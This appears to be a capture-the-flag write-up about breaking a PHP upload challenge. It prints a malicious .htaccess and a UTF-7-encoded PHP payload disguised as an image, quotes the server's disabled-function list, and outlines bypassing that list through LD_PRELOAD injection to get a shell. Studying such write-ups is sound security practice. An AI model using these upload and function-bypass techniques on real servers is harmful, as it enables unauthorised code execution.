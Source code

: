 
```.htaccess
#define 4c11f3876d494218ff327e3ca6ac824f_width 1337
#define 4c11f3876d494218ff327e3ca6ac824f_height 1337
AddType application/x-httpd-php .asp
php_flag display_errors on
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

```php
#define 4c11f3876d494218ff327e3ca6ac824f_width 1337
#define 4c11f3876d494218ff327e3ca6ac824f_height 1337
+ADw?php phpinfo()+ADs +AF8AXw-halt+AF8-compiler()+ADs
```

## Get a shell!

Now we know how to run php. Let's find the flag!<br>
I uploaded the [scanroot.asp](./scanroot.asp) that scan the root directory using `scandir` function.<br>
We can find two files, `flag` and `get_flag`. A few moment later, we can know the goal of this problem is get a shell and launch `get_flag`
![Root directory](https://i.imgur.com/Ogoy6OC.png)

By the way, `phpinfo()` gives us important information, `disable_functions`.<br>
```
disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,passthru,shell_exec,system,proc_open,popen,pcntl_exec,posix_mkfifo, pg_lo_import, dbmopen, dbase_open, popen, chgrp, chown, chmod, symlink,apache_setenv,define_syslog_variables, posix_getpwuid, posix_kill, posix_mkfifo, posix_setpgid, posix_setsid, posix_uname, proc_close, pclose, proc_nice, proc_terminate,curl_exec,curl_multi_exec,parse_ini_file,show_source,imap_open,fopen,copy,rename,readfile,readlink,tmpfile,tempnam,touch,link,file_put_contents,file,ftp_connect,ftp_ssl_connect,
```
Important functions to get a shell like `system`, `shell_exec`, `proc_open` are blocked, we must bypass it.<br>
I googled about bypassing, I found a method using [LD_PRELOAD injection!](https://www.freebuf.com/articles/web/192052.html)<br>
Also, I noticed that `mail` and `putenv` functions are not disabled, we may be able to use **LD_PRELOAD injection**

I built `bypass.so` and `shell.php` like in reference, it should be work :)

## Upload the file...

We thought we just solved a problem, because we can get a shell!<br>
However, there was a huge wall... How can we upload a valid `.so` file?<br>
Since we must pass `exif_imagetype`, we can't make a valid `.so` file also valid image file...

After long rest, I just found `move_uploaded_file` is not disabled due to configure main page!<br>
So, I just write simple upload form and php file deals with upload, [up_form.html](./up_form.html) and [upl.asp](./upl.asp)
